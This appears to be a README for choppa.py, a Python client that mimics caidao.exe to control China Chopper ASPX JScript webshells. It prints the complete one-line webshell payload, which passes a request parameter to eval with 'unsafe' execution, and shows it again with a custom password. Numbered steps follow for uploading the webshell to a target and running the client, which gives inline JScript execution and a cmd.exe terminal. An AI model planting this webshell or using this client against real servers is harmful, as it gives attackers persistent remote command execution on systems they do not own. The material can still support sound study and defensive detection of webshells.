 # choppa.py
-------------------------------------------------------
                    choppa.py - x0f
-------------------------------------------------------
choppa.py is a python implementation of caidao.exe, which includes minimal implementations
of caidao.exe's features exclusively for ASPX Jscript variants of China Chopper webshells such as:

<script language="JScript" runat="server">function Page_Load(){eval(Request["password"],"unsafe");}</script>

Emulated caidao.exe features include:
- inline Jscript execution
- Virtual terminal emulation with Jscript and cmd.exe /c

choppa.py is not fully featured, and does not include file upload/download or support
for other webshell types referenced in caidao.exe such as ASP and PHP. These features are subject 
to future implementations.

#########################
INSTRUCTIONS:
#########################
1. Change webshell password

<script language="JScript" runat="server">function Page_Load(){eval(Request["Nonqjbexznaoynzrfuvfgbbyf"],"unsafe");}</script>

2. Upload ASPX webshell on target
3. python choppa.py -p Nonqjbexznaoynzrfuvfgbbyf -m MODE
